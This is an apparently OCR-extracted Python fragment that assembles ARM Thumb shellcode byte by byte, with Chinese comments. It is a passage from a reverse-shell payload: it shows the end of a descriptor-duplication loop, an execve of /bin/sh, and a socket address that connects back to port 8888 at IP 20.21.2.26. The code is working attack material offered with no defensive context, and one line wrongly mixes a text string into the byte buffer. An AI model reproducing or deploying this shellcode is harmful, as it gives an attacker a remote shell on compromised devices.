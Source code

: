```python

#sub r1, #1;

#bpl Dup;

sc += b'\x30\x1c'
sc += b'\x01\xdf'
sc += b'\x01\x39'
sc += b'\xfb\xd5'

#构造argv[1] = {"/bin/sh", 0};

#调用execve("/bin/sh", argv, 0);

#add r0, pc, #20;

#sub r2, r2, r2;

#push {r0, r2};

#mov r1, sp;

#mov r7, #11;

#svc 1;

sc += b'\x05\xa0'
sc += b'\x92\x1a'
sc += b'\x05\xb4'
sc += b'\x69\x46'
sc += b'\x0b\x27'
sc += b'\x01\xdf'

#nop 对齐

sc += b'\xc0\x46'

#套接字：0x02 0x00

#端口号：8888

sc += b'\x02\x00'
sc += b'\x22\xb8'

#IP:20.21.2.26

sc += b'\x14\x15\x02\x1a'

#/bin/sh

sc += '/bin/sh\x00'
```
